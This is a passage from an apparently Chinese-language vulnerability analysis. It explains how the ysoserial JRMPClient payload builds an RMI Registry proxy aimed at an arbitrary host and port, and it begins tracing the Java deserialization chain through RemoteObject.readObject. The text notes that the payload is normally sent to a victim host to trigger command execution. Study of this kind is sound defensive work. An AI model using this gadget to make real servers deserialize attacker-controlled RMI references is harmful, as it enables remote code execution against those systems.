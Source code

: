 这里的 clazz 是 JRMPClient，也就是调用该类的 getObject 方法获取 payload

```plain
public Registry getObject ( final String command ) throws Exception {

    String host;
    int port;
    int sep = command.indexOf(':');
    if ( sep < 0 ) {
        port = new Random().nextInt(65535);
        host = command;
    }
    else {
        host = command.substring(0, sep);
        port = Integer.valueOf(command.substring(sep + 1));
    }
    // 标识远程对象
    ObjID id = new ObjID(new Random().nextInt()); // RMI registry
    // 远程对象通信终点
    TCPEndpoint te = new TCPEndpoint(host, port);
    UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
    // 用于处理代理对象的方法调用
    RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
    // 创建代理对象
    Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] {
        Registry.class
    }, obj);
    return proxy;
}
```

[![](assets/1701612165-1f833aba90cea6c2d2ec3e43dcd8caca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230810225321-a66baf98-378d-1.png)  
最后将返回的代理对象进行反序列化  
**第二步：将序列化的 payload 进行反序列化**  
这一步是测试所用，正常是将 payload 发送至某个受害主机，让其进行反序列化从而导致命令执行  
根据 payload 的构造，反序列化的第一步应该从 RemoteObjectInvocationHandler 类的 readObject 方法开始，在该类中没找到 readObject 方法，进而查看父类 RemoteObject 的 readObject 方法
